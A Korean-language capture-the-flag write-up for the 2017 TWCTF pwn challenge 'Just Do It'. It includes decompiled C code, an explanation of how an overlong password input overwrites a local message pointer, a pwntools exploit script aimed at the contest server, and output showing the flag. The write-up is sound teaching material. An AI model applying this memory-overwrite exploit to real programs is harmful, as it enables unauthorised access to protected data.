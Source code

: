 # 2017 TWCTF - [PWN] Just Do It

## Key words

- 32bit ELF
- overwrite local variable

## Solution

문제를 보면 다음과 같습니다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+8h] [bp-20h]@7
  FILE *flag; // [sp+18h] [bp-10h]@1
  char *v6; // [sp+1Ch] [bp-Ch]@1

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 2, 0);
  v6 = failed_message;
  flag = fopen("flag.txt", "r");
  if ( !flag )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(::flag, 48, flag) )
  {
    perror("file read error.\n");
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  if ( !fgets(&s, 32, stdin) )
  {
    perror("input error.\n");
    exit(0);
  }
  if ( !strcmp(&s, PASSWORD) )
    v6 = success_message;
  puts(v6);
  return 0;
}
```

전역 변수 `::flag`에 플래그 파일을 읽어 저장하고 사용자의 입력을 받아 전역 변수 `PASSWORD`과 같은지 비교 합니다. 마지막으로 v6을 통해 성공 메시지를 출력할 것인지 실패 메시지를 출력할 것인지를 결정합니다.

가장 먼저 보이는 버그는 입력받는 s의 버퍼로 v6 변수 까지 덮을 수 있는 점 입니다. 따라서, v6의 값을 전역 변수의 주소로 변경하면 마지막에 puts 를 하게 되면서 플래그를 출력하게 됩니다.

## Solution Code

```python
from pwn import *

server = "pwn1.chal.ctf.westerns.tokyo"
port = 12345

r = remote(server, port)

print r.recv()

p = 0x0804a080

r.sendline(p32(p) * 8)

data = r.recv()

print data
print data.encode("hex")

r.interactive()
```

## Result

```
tbkim@ubuntu:~/ctfing/2017_mma/pwn/just$ python sol_just.py
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12345: Done
Welcome my secret service. Do you know the password?
Input the password.

TWCTF{pwnable_warmup_I_did_it!}
```